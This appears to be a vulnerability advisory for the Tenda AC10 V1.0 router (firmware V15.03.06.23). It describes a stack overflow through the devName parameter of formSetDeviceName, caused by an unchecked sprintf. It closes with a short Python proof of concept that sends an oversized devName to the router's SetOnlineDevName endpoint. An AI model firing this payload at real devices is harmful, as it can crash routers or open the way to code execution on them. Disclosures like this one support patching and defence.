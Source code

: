 stackflow\_formSetDeviceName
----------------------------

### Overview

*   Equipment website：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   Firmware download website：[AC10V1.0升级软件](https://www.tenda.com.cn/material/show/102734)

### Affected version

V1.0 V15.03.06.23

### Vulnerability details

Tenda AC10 V1.0 V15.03.06.23 The devName argument in the formSetDeviceName function causes a stack overflow and passes it to the function "set\_device\_name" without any length checking. Once the ROP chain is built, malicious code can be executed.

![](api/attachments/f3k863AMSrJ6/image/image.png)

After getting the mac and devName parameters, type set\_device\_name, check only if the parameter "dev\_name" exists, and use sprintf to pass it to the "mib\_name" array, which will overflow the stack if the length exceeds it

![](api/attachments/HFqG5wHg0dxB/image/image.png)

### poc

```text-plain
import requests
ip = '192.168.159.100'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
   "mac": '9c:fc:e8:da:9c:5b',
   "devName": 'Raining'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

![](api/attachments/5mgyxqNbbsnd/image/image.png)